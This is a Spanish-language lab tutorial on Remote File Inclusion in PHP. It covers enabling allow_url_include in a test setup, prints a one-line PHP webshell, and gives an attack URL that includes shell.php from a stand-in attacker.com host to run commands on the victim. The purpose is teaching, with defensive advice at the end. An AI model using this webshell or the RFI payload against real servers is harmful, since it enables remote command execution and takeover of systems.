







## Índice
- [Introducción](#Introducción)
- [Entorno de pruebas](#Entorno-de-pruebas)
- [Conclusión](#Conclusión)

## Introducción
El **Remote File Inclusion (RFI)** es una vulnerabilidad que permite a un atacante incluir archivos remotos en un servidor vulnerable. A diferencia del Local File Inclusion (LFI), que solo carga archivos locales, el RFI permite ejecutar código alojado en otra web.

Esto es peligroso porque un atacante puede alojar un archivo malicioso en su propio servidor y usar la vulnerabilidad para ejecutarlo en la máquina víctima. Esto puede llevar a la toma de control del sistema, robo de datos o la instalación de malware.

En este caso alojaremos una WebShell como POC.

## Entorno de pruebas
- 2 Equipos:
    - **Máquina atacante**: Kali Linux => 192.168.1.20
    - **Máquina servidor WEB**: Ubuntu  => 192.168.1.30



Para poder lograr explotar esta vulnerabilidad, deberemos crear un archivo PHP que permita la inclusión de archivos:



Este código básico permite que el servidor reciba un valor mediante una solicitud GET a través del parámetro file e incluya el archivo correspondiente en la página.

Con esta sencilla configuración, ya tenemos un **Local File Inclusion (LFI)** funcional.
Servidor WEB
```
php -S 192.168.1.30:80
```


Kali Linux
```
http://192.168.1.30/?file=flag.txt
```


Para lograr un **Remote File Inclusion (RFI)** y poder subir un archivo al servidor de forma remota, es necesario modificar la configuración de PHP en el archivo ``php.ini``. En particular, hay que habilitar la opción que permite la inclusión de archivos desde URLs remotas.

Dentro de este archivo, tenemos que buscar la variable allow_url_include:



Una vez que se ha habilitado la **inclusión remota de archivos (RFI)** y se ha configurado adecuadamente el archivo ``php.ini``, el siguiente paso es intentar llamar nuestra webshell para poder lanzar comandos remotamente.

1. Crear un servidor HTTP en la máquina atacante para alojar la Webshell.
```php
<?php system($_GET['cmd']); ?>
```


Este código PHP permite ejecutar comandos del sistema que se pasan como parámetros en la URL. Por ejemplo, si visitamos ``http://attacker.com/shell.php?cmd=ls``, el servidor devolverá el resultado del comando ls ejecutado en la máquina atacante.

2. Llamar a la Webshell alojada en nuestra máquina atacante.
   
Una vez que la webshell está cargada en el servidor atacante, el siguiente paso es aprovechar la vulnerabilidad Remote File Inclusion (RFI) en el servidor víctima. Si el servidor víctima permite incluir archivos desde URLs remotas, podemos incluir la webshell alojada en nuestra máquina atacante.

La URL para incluir la webshell en el servidor víctima podría verse algo así:
``
http://victimsite.com/index.php?file=http://attacker.com/shell.php&cmd=id
``


   
Estamos ejecutando comandos localmente usando un archivo remoto. Esto es básicamente un Remote File Inclusion.

## Conclusión


El **Remote File Inclusion (RFI)** es una vulnerabilidad crítica que permite a los atacantes ejecutar código remoto en un servidor vulnerable, comprometiendo gravemente la seguridad del sistema. A través de la inclusión de archivos externos, un atacante puede ejecutar comandos arbitrarios, acceder a información sensible o incluso tomar control completo del servidor afectado.

En este post, hemos demostrado cómo un atacante puede aprovechar esta vulnerabilidad para cargar y ejecutar una **webshell** remotamente, utilizando una configuración incorrecta de PHP. Al habilitar opciones como `allow_url_include` y manipular el parámetro `file`, el atacante puede hacer que el servidor incluya un archivo desde un servidor controlado por él y ejecutar comandos del sistema.

Es fundamental que los administradores de sistemas mantengan configuraciones seguras, validen entradas de usuario adecuadamente y desactiven opciones inseguras como la inclusión remota de archivos. La prevención de ataques RFI es crucial para proteger los servidores de ataques externos que pueden tener consecuencias devastadoras.


